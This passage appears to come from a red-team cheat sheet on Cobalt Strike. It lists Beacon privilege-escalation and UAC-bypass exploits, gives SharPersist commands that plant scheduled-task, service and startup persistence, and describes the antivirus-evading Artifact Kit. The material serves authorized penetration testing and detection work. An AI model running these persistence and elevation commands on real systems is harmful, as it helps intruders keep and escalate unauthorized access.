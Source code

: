 ```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
```

### Persistence Kit

* https://github.com/0xthirteen/MoveKit
* https://github.com/fireeye/SharPersist
    ```powershell
    # List persistences
    SharPersist -t schtaskbackdoor -m list
    SharPersist -t startupfolder -m list
    SharPersist -t schtask -m list

    # Add a persistence
    SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
    SharPersist -t schtaskbackdoor -n "Something Cool" -m remove

    SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
    SharPersist -t service -n "Some Service" -m remove

    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
    SharPersist -t schtask -n "Some Task" -m remove
    ```

### Resource Kit

> The Resource Kit is Cobalt Strike's means to change the HTA, PowerShell, Python, VBA, and VBS script templates Cobalt Strike uses in its workflows

### Artifact Kit

> Cobalt Strike uses the Artifact Kit to generate its executables and DLLs. The Artifact Kit is a source code framework to build executables and DLLs that evade some anti-virus products. The Artifact Kit build script creates a folder with template artifacts for each Artifact Kit technique. To use a technique with Cobalt Strike, go to Cobalt Strike -> Script Manager, and load the artifact.cna script from that technique's folder.
